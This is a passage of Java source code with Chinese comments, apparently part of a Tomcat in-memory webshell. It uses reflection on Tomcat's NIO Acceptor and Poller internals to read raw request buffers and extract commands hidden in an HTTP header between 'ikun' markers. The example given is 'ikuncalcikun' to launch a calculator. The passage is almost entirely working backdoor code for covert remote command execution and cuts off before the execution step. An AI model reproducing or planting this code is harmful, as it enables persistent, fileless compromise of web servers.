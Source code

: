 ```bash
            Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread thread : threads) {
                try {
                    // 需要获取线程的特征包含Acceptor
                    if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                        Object[] nioEndpointPollerArrays = (Object[]) getField(getField(getField(thread,"target"),"this$0"),"pollers");
                        for (Object nioEndpointPollerArray : nioEndpointPollerArrays){
                            Object[] channelArrays = (Object[]) getField(getField(nioEndpointPollerArray,"selector"),"channelArray");
                            for (Object obj : channelArrays){
                                if (obj != null){
                                    byte[] bytes = (byte[]) getField(getField(getField(getField(getField(obj,"attachment"),"socket"),"appReadBufHandler"),"byteBuffer"),"hb");
                                    String cmd = new String(bytes);
                                    return cmd;
                                }
                            }
                        }
                    }
                } catch (Exception e) {
                    continue;
                }
            }
            return "";
        }

        // 解析字符串获取 cmd 字符串
        public String getCmd(String str){
            // HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器
            String cmd = str.substring(str.indexOf("ikun")+4 , str.lastIndexOf("ikun"));
            return cmd;
        }

    }

    // 线程中获取 Handler 对象
    public Object getTheHandler() {
        // 获取当前线程的所有线程
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            try {
                // 需要获取线程的特征包含Acceptor
                if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                    Object handler  = getField(getField(getField(thread, "target"),"this$0"),"handler");
                    return handler;
                }
            } catch (Exception e) {
                continue;
            }
        }
        return new Object();
    }

    // 反射获取对象
    public Object getField(Object obj, String field) {
        // 递归获取类的及其父类的属性
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
```